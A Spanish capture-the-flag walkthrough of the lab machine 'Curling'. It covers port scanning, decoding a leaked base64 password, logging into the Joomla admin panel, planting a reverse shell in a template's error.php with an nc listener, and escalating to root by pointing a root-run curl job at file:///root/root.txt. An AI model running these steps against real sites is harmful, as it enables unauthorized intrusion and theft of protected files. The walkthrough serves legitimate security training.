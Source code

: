 ```yaml
---
description: '✍️ Autor: l4mje🔍 Dificultad: Fácil 📅 Fecha de creación: 08/05/2019'
---
```


# Curling

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.150
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.150
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 22 (SSH):** El puerto 22 está abierto y ejecutando OpenSSH 7.6p1 en un sistema Ubuntu Linux. Se han detectado las claves del host en los algoritmos RSA, ECDSA y ED25519, lo que indica que el sistema permite conexiones seguras mediante SSH.
* **Puerto 80 (HTTP):** El puerto 80 se encuentra abierto y ejecuta un servidor web Apache 2.4.29 en Ubuntu. Se ha detectado que el sitio utiliza Joomla! como sistema de gestión de contenidos (CMS), lo que podría ser un posible vector de ataque si existen vulnerabilidades conocidas en la versión instalada.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.10.150
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay dos usuarios posibles **Super User** y **Floris**. Revisando el código fuente encontramos una línea comentada.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando el directorio nos encontramos una contraseña puede ser codificada en **base64**.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
echo "Q3VybGluZzIwMTgh" | base64 --decode
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Escaneo para ver los directorios.

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.10.10.150/FUZZ
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un directorio que nos llama la atención llamado `/administrator`.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales obtenidas anteriormente.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

{% embed url="https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/joomla.html" %}

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En **error.php** subimos una Reverse Shell. Nos ponemos en escucha.

```
http://10.10.10.150/templates/protostar/error.php
nc -nlvp 4444
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mejoramos la TTY.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

No tenemos permiso para leer la flag del user. Puedo acceder al archivo `password_backup`, que parece un archivo de volcado en formato hexadecimal. El tipo de archivo es ASCII.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Usando CyberChef, podemos cargar el archivo `password_backup` para procesarlo (para procesar el volcado hexadecimal, haz clic en la varita mágica junto a 'output').

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahí está la contraseña por lo que iniciamos sesión.

```
ssh floris@10.10.10.151
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.

Descubrimos un proceso automatizado en el directorio `admin-area` que recupera datos desde una URL especificada en un archivo de entrada y almacena la salida en un archivo de reporte. Sospechamos que este proceso es ejecutado por un script que utiliza el comando `curl`, y dado que los archivos son propiedad de `root`, planteamos la posibilidad de acceder a archivos restringidos.

Tras investigar un poco, nuestra siguiente estrategia será modificar la ruta `file:///<path>/`. Primero, editaremos el archivo de entrada para que ejecute un archivo local y permitiremos que `curl` lo procese.

```bash
echo 'url = "file:///root/root.txt"' > input
cat report
```

Ya leemos así la flag.

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
